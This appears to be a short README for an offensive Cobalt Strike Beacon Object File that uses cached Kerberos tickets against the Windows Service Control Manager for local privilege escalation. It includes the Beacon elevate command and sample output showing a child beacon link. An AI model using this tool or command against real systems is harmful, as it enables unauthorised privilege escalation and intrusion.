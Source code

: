# SCMUACBypass

A BOF which authenticates to the Service Control Manager via Kerberos and LPEs using a service binary payload.  This is designed to be used in combination with Kerberos relay attack primitives - the appropriate ticket(s) must already be in your cache.

The included Aggressor script registers a new `elevate` command in Beacon.

```text
beacon> elevate svc-exe-krb tcp-local

AcquireCredentialsHandleHook called for package Negotiate
Changing to Kerberos package

InitializeSecurityContext called for target HOST/127.0.0.1
InitializeSecurityContext status = 00090312

InitializeSecurityContext called for target HOST/127.0.0.1
InitializeSecurityContext status = 00000000

[+] established link to child beacon: 172.16.0.100
```

![](beacon.png)

# References

- https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82